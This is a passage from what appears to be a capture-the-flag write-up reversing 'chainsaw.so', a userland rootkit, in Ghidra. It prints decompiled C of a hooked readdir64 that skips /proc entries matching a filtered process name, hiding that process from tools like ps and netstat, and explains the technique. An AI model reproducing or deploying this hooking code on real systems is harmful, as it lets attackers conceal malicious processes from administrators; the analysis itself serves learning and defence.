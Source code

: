 
I don’t need to fully understand exactly what’s going on, but I get the gist -
part of how it is reading processes is by walkign the `/proc` directory. That
means that if a rootkit can hook `readdir` and modify the results, it will be
able to hide things from other processes like `netstat` and `ps`.

### Reversing chainsaw.so

I’ll open `chainsaw.so` in Ghidra and take a look. In the Symbol Tree window,
in the Exports folder, I see `readdir` and `readdir64`:

![image-20191122064352378](https://0xdfimages.gitlab.io/img/image-20191122064352378.png)

I’ll click on `readdir64` and take a look. The Decompile window gives rough C:

    
    
    dirent64 * readdir64(DIR *__dirp)
    
    {
      int iVar1;
      undefined8 uVar2;
      dirent64 *pdVar3;
      long in_FS_OFFSET;
      char local_218 [256];
      char local_118 [264];
      long local_10;
      
      local_10 = *(long *)(in_FS_OFFSET + 0x28);
      if ((original_readdir64 == (code *)0x0) &&
         (original_readdir64 = (code *)dlsym(0xffffffffffffffff,"readdir"),
         original_readdir64 == (code *)0x0)) {
        uVar2 = dlerror();
        fprintf(stderr,"Error in dlsym: %s\n",uVar2);
      }
      while (((pdVar3 = (dirent64 *)(*original_readdir64)(__dirp), pdVar3 != (dirent64 *)0x0 &&
              (uVar2 = get_dir_name(__dirp,local_218,0x100), (int)uVar2 != 0)) &&
             (iVar1 = strcmp(local_218,"/proc"), iVar1 == 0))) {
        uVar2 = get_process_name(pdVar3->d_name,local_118);
        if (((int)uVar2 == 0) || (iVar1 = strcmp(local_118,process_to_filter), iVar1 != 0)) break;
      }
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
        return pdVar3;
      }
                        /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    

This code looks very much like the example I cited from h0mbre earlier. After
the variables are declared, there’s a block that is getting the libc
`readdir64` and saving that as `original_readaddr64`.

Then there’s a while loop, and in that loop I see the check:

    
    